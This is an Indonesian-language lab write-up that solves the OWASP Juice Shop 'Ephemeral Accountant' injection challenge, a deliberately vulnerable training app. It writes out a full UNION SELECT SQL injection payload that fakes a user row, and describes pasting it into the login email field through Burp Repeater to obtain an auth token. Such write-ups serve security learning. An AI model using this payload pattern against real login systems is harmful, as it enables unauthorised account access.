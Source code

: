 # Ephemeral Accountant - OWASP Juice Shop

>Kategori = Injection☠️

[ephemeral accountant](http://localhost:3000/#/score-board?categories=Injection)

---

## Langkah-langkah pengerjaan
1. Mendapatkan schema query untuk **create User**
![Alt text](./gambar/ea-1.png)

2. Buat payload yang sesuai dengan schema query yang telah ditemukan
~~~
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, 'localhost' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
~~~

3. Mencari endpoint dari user login di burp suite dan send to repeater
![Alt text](./gambar/ea-2.png)

3. Pada bagian repeater bagian isi email diganti dengan payload yang telah dibuat sebelumnya untuk memunculkan token sebagai penanda authorization nya berhasil
![Alt text](./gambar/ea-3.png)
 